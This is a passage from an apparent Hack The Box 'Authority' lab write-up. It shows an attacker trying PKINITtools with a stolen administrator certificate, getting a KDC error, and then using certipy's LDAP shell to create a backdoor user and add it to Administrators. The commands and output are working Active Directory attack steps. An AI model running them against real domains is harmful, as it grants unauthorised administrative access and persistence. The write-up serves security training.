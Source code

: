 After obtaining the `administrator.pfx` certificate, My initial thought was to download Dirk-jan's `PKINIT tools` to ultimately be able to authenticate against services using Kerberos.

```bash
 git clone https://github.com/dirkjanm/PKINITtools
```

I attempted to request a TGT using `gettgtpkinit.py`, but encountered an error that stated, `KDC has no support for PADATA type (pre-authentication data)`.

```bash
$ python3 gettgtpkinit.py authority.htb/administrator administrator.ccache -cert-pfx ../administrator.pfx 
2025-01-16 17:43:47,650 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-01-16 17:43:48,015 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
Traceback (most recent call last):
  File "/home/n1ck3nd/HackTheBox/Authority/blog_files/PKINITtools/gettgtpkinit.py", line 349, in <module>
    main()
    ~~~~^^
  File "/home/n1ck3nd/HackTheBox/Authority/blog_files/PKINITtools/gettgtpkinit.py", line 345, in main
    amain(args)
    ~~~~~^^^^^^
  File "/home/n1ck3nd/HackTheBox/Authority/blog_files/PKINITtools/gettgtpkinit.py", line 315, in amain
    res = sock.sendrecv(req)
  File "/home/n1ck3nd/.virtualenvs/PKINITtools-/lib/python3.13/site-packages/minikerberos/network/clientsocket.py", line 85, in sendrecv
    raise KerberosError(krb_message)
minikerberos.protocol.errors.KerberosError:  Error Name: KDC_ERR_PADATA_TYPE_NOSUPP Detail: "KDC has no support for PADATA type (pre-authentication data)"
```

I researched the issue and found a helpful article: [Authenticating with Certificates When PKINIT is Not Supported](https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html). Since PKINIT isn’t supported, I decided to attempt authentication using the certificate via Schannel against LDAP.

To be able to get a shell on the target machine, I create a user account and add it to the `administrators` group.

```bash
$ certipy auth -pfx administrator.pfx -dc-ip 10.129.76.109 -username administrator -domain authority.htb -ldap-shell 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Connecting to 'ldaps://10.129.76.109:636'
[*] Authenticated to '10.129.76.109' as: u:HTB\Administrator
Type help for list of commands

# whoami
u:HTB\Administrator

# add_user file_svc
Attempting to create user in: %s CN=Users,DC=authority,DC=htb
Adding new user with username: file_svc and password: lx422psz&lWm{C, result: OK

# add_user_to_group file_svc administrators
Adding user: file_svc to group Administrators result: OK
```
